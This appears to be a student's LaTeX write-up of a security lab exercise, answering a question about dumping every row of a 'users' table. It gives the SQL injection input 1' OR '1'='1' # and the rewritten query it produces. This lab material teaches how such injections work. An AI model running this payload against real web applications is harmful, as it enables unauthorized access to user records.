 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[H]
    \centering
    \includegraphics[width=1.0\textwidth]{Both.png}
    \caption{Results of SQL injection for user IDs 1 and 2.}
\end{figure}

\newpage
\textbf{Q3. Can you construct a query that will show ALL of rows in ‘users’ table? Write query down here.}

\textbf{Answer:}

If we input:

\begin{lstlisting}
1' OR '1'='1' #
\end{lstlisting}

SQL query becomes:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' # ';
\end{lstlisting}

Because '1'='1' is always true, this returns all rows in \texttt{users} table.
\end{document}

